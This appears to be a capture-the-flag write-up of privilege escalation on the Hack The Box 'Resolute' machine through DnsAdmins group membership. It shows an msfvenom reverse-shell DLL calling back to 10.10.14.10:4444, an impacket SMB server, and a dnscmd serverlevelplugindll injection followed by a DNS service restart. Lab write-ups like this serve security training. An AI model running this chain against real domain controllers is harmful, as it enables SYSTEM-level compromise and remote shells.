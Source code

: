 # 25 - PrivEsc Ryan


# Contractors & DnsAdmins
```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```


DnsAdmins is an active directory security group, it has read write access to dns objects. dns.exe runs as system and dns admins can load dlls into this executable.

For a more detailed explanation see https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83


Caution: The following exploit hangs the dns server because once the dll is loaded and executing it won't return. Another exploit can be tried https://github.com/kazkansouh/DNSAdmin-DLL . In this repository they use a thread to execute the reverse shell so it does not cause the calling process to hang.


# DLL generation and smb server
```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/resolute/www]
└──╼ $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444  -f dll > dns.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload                                                   
Payload size: 460 bytes                                                                        
Final size of dll file: 8704 bytes    

┌─[user@parrot]─[10.10.14.6]─[~/htb/resolute]
└──╼ $ sudo impacket-smbserver  -smb2support   
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                       
                                               
[*] Config file parsed                                                                         
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                         
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                                                                         
[*] Config file parsed                                                                                                                                                                        
[*] Config file parsed 
```


# DLL injection

```bash
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.14.10\www\dns.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2880
        FLAGS              :
```



# Reverse Shell
![](vx_images/1708823535699.png)